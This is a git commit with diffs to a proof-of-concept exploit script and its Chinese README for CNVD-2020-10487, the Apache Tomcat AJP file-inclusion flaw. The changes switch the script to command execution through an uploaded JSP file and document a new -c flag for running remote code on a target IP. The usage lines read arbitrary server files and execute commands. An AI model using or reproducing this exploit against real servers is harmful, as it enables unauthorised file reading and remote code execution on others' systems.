

修改命令执行方案

diff --git a/CNVD-2020-10487-POC.py b/CNVD-2020-10487-POC.py
@@ -306,7 +306,7 @@ t = Tomcat(args.target, args.port)
 if not args.cmd:
 	targetWebapp = '/%s/asd@f34#' % args.webapp
 else:
-	targetWebapp = '/%s' % args.webapp
+	targetWebapp = '/%s/tsdf.jsp' % args.webapp
 _,data = t.perform_request(targetWebapp, attributes=[
     {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
     {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},

diff --git a/README.md b/README.md
@@ -12,9 +12,9 @@ python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname 
 ![](./img/read_file.png)
 
 2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
-且使用方法与读取文件的使用方法有小部分差异，即-w/--webapp的参数值需要指定为webshell所在的webapp下的任意一个jsp文件，如：-w examples/jsp/jsp2/el/basic-arithmetic.jsp
+使用方法与读取文件方法类似，只需加上-c 参数即可。
 ``` shell
-python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p ajp_port target_ip
+python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p ajp_port target_ip -c
 ```
 
 运行示例：
